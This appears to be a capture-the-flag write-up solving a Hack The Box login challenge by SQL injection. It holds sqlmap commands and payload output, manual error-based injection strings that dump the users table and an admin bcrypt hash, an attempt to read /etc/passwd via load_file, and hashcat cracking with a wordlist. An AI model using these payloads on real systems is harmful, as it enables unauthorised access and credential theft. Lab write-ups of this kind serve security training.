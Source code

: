 # korp-terminal

Your faction must infiltrate the KORP™ terminal and gain access to the Legionaries' privileged information and find out more about the organizers of the Fray. The terminal login screen is protected by state-of-the-art encryption and security protocols.

## Solution

http://94.237.62.240:59149/

POST
form data: username=barrett&password=test

```sh
gobuster dir --url http://94.237.62.240:59149/ -w /usr/share/wordlists/dirb/common.txt
# nothing...
```

SQLi ?

https://github.com/payloadbox/sql-injection-payload-list

```sh
curl 'http://94.237.62.240:59149/' -X POST \

sqlmap -u http://94.237.62.240:59149/ --data="username=*&password=*" --method POST --dump all --batch
sqlmap -u "http://94.237.62.240:59149/" --crawl=1 --random-agent --batch --forms --threads=5 --level=5 --risk=3 --ignore-code 401


# POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
# sqlmap identified the following injection point(s) with a total of 724 HTTP(s) requests:
# ---
# Parameter: username (POST)
#     Type: boolean-based blind
#     Title: AND boolean-based blind - WHERE or HAVING clause (subquery - comment)
#     Payload: username=geJo' AND 8042=(SELECT (CASE WHEN (8042=8042) THEN 8042 ELSE (SELECT 6993 UNION SELECT 1181) END))-- -&password=QJGF

#     Type: error-based
#     Title: MySQL >= 5.0 OR error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
#     Payload: username=geJo' OR (SELECT 9955 FROM(SELECT COUNT(*),CONCAT(0x717a766271,(SELECT (ELT(9955=9955,1))),0x716b787871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- ONFT&password=QJGF

#     Type: time-based blind
#     Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
#     Payload: username=geJo' AND (SELECT 9873 FROM (SELECT(SLEEP(5)))FvfL)-- HsjU&password=QJGF
```

```
boolean-based

admin' AND 8042=(SELECT (CASE WHEN (8042=8042) THEN 8042 ELSE (SELECT 6993 UNION SELECT 1181) END))-- -
admin' AND 8042=(SELECT (CASE WHEN (8042=8042) THEN 8042 ELSE (SELECT 6993 UNION SELECT 1181) END))-- -

nope

```


```
'admin;
"1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near 'admin;'' at line 1"

'
"1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1"

' or "
`1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '"'' at line 1`

'' or 1=1

'''''''''''''UNION SELECT '2
"Invalid salt"

admin' or '1'='1
"1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ') or '1'='1'' at line 1"

' AND ExtractValue(null,concat(0x3a,version()))-- -
"1105 (HY000): XPATH syntax error: ':10.11.6-MariaDB'"

' AND ExtractValue(null,concat(0x3a,database()))-- -
"1105 (HY000): XPATH syntax error: ':korp_terminal'"

' AND ExtractValue(null,concat(0x3a,user()))-- -
"1105 (HY000): XPATH syntax error: ':lean@localhost'"

' AND ExtractValue(null,concat(0x3a, (SELECT GROUP_CONCAT(table_name SEPARATOR ', ') as x FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='korp_terminal')))-- -
"1105 (HY000): XPATH syntax error: ':users'"

' AND ExtractValue(null,concat(0x3a, (SELECT GROUP_CONCAT(column_name SEPARATOR ', ') as x FROM INFORMATION_SCHEMA.COLUMNS WHERE table_schema='korp_terminal' AND table_name='users')))-- -
"1105 (HY000): XPATH syntax error: ':id, username, password'"

' AND ExtractValue(null,concat(0x3a, (SELECT GROUP_CONCAT(username SEPARATOR ', ') as x FROM users)))-- -
"1105 (HY000): XPATH syntax error: ':admin'"

' AND ExtractValue(null,concat(0x3a, (SELECT password FROM users)))-- -
"1105 (HY000): XPATH syntax error: ':$2b$12$OF1QqLVkMFUwJrl1J1YG9...'"

' AND ExtractValue(null,concat(0x3a, (SELECT length(password) FROM users)))-- -
"1105 (HY000): XPATH syntax error: ':60'"

' AND ExtractValue(null,concat(0x3a, (SELECT SUBSTRING(password, 1, 20) as x FROM users)))-- -
"1105 (HY000): XPATH syntax error: ':$2b$12$OF1QqLVkMFUwJ'"

' AND ExtractValue(null,concat(0x3a, (SELECT SUBSTRING(password, 21, 20) as x FROM users)))-- -
"1105 (HY000): XPATH syntax error: ':rl1J1YG9u6FdAQZa6Byx'"

' AND ExtractValue(null,concat(0x3a, (SELECT SUBSTRING(password, 41, 20) as x FROM users)))-- -
"1105 (HY000): XPATH syntax error: ':Ft/CkS/2HW8GA563yiv.'"

```

admin
$2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv.

12 possible salt?  so hash maybe OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv.

Possible algorithms: bcrypt $2*$, Blowfish (Unix), bcrypt(md5($plaintext))


https://auth0.com/blog/hashing-in-action-understanding-bcrypt/

' AND ExtractValue(null,concat(0x3a, (SELECT TO_base64(load_file("/etc/passwd")) from information_schema.plugins limit 1)))-- -


```
1234 " AND 1=0 UNION ALL SELECT "admin", "$2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv.
```

```sh
hashid -e "$2b$12$OF1QqLVkMFUwJrl1J1YG9u6FdAQZa6ByxFt/CkS/2HW8GA563yiv."
# BigCrypt

hashcat -a 0 -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
# password123
```

`HTB{t3rm1n4l_cr4ck1ng_sh3n4nig4n5}`
